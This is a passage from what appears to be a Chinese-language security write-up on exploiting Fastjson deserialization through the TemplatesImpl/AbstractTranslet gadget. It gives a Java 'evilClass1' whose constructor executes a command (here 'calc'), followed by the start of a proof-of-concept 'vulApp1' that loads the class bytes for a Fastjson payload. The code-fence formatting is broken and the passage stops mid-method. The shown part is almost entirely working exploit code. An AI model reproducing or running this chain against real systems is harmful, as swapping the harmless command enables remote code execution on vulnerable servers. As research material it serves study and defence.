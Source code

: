```
package ka1n4t.poc;

import com.sun.org.apache.xalan.internal.xsltc.DOM;

import com.sun.org.apache.xalan.internal.xsltc.TransletException;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;

import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class evilClass1 extends AbstractTranslet/*ka1n4t*/ {

```
public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
}

public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

}

public evilClass1() throws IOException {
    Runtime.getRuntime().exec("calc");
}

public static void main(String[] args) throws IOException {
    evilClass1 helloworld = new evilClass1();
} 
``` `}` 
```

其中的构造方法是用exec弹个计算器。看下poc，vulApp1.java：

```
package ka1n4t.poc;

import org.apache.commons.io.IOUtils;

import org.apache.commons.codec.binary.Base64;

import com.alibaba.fastjson.JSON;

import com.alibaba.fastjson.parser.Feature;

import com.alibaba.fastjson.parser.ParserConfig;

import java.io.ByteArrayOutputStream;

import java.io.File;

import java.io.FileInputStream;

import java.io.IOException;

public class vulApp1 {

```
public static String readClass(String cls){
    ByteArrayOutputStream bos = new ByteArrayOutputStream();
    try {
        IOUtils.copy(new FileInputStream(new File(cls)), bos);
    } catch (IOException e) {